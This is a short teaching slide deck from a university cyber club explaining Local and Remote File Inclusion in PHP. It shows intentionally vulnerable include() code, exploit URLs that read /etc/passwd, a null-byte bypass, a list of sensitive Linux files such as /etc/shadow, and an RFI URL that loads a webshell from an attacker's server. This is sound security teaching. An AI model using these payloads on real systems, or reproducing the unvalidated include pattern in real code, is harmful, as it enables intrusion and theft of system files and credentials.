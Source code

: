 # Local File Inclusion

By: Nick Bulischeck

CU Cyber


## You Can Find These Presentations Online

Visit [cucyber.net](https://cucyber.net/) to find these presentations and more online!

<span style="padding-top: 6em; font-size: 0.4em; float: left;">Material: <a href="https://tldrlegal.com/license/creative-commons-attribution-sharealike-4.0-international-(cc-by-sa-4.0)">Creative Commons Attribution-ShareAlike 4.0</a></span><span style="padding-top: 6em; font-size: 0.4em; float: right;">Code: <a href="https://tldrlegal.com/license/bsd-2-clause-license-(freebsd)">BSD 2-Clause</a></span>



## What is Local File Inclusion?

* LFI is the process of including files, that are already locally present on the server, through the exploiting of vulnerable inclusion procedures implemented in the application

Note:
Watch Ippsec do LFI using burp: https://youtu.be/rs4zEwONzzk?t=385


## How Does LFI Get Into Code?

* The vulnerability occurs due to the use of user-supplied input without proper validation
* More specifically, `include` statements are not properly sanitized



## Testing for LFI

* In a blackbox testing approach, we should look for scripts which take filenames as parameters


### Testing for LFI

* `http://127.0.0.1/view.php?file=index.html`

```
<?php
  include($_GET['file']);
?>
```



## Exploiting LFI

Note:
Now that you know how LFI works, how would you use it to exploit the server?


### Exploiting LFI

* `http://127.0.0.1/view.php?file=/etc/passwd`


### Interesting Linux File Paths

* /etc/issue
* /proc/version
* /etc/profile
* /etc/passwd
* /etc/shadow
* /root/.bash_history
* /var/mail/root
* /var/spool/cron/crontabs/root


### Bypassing LFI File Restrictions

```
<?php
  include($_GET['file'] . ".php");
?>
```

Note:
* How are C strings represented in memory?
* What happens when strlen finds a null character?


### Bypassing LFI File Restrictions

* `http://127.0.0.1/view.php?file=/etc/passwd%00`



## Remote File Inclusion

* In RFI, the attacker is able to execute code hosted on their own machine.

Note: 
Watch Ippsec attempt RFI: https://youtu.be/rs4zEwONzzk?t=520


### RFI Example

`http://vulnerable/index.php?page=http://yourserver/webshell.txt&cmd=ifconfig`



# Questions?
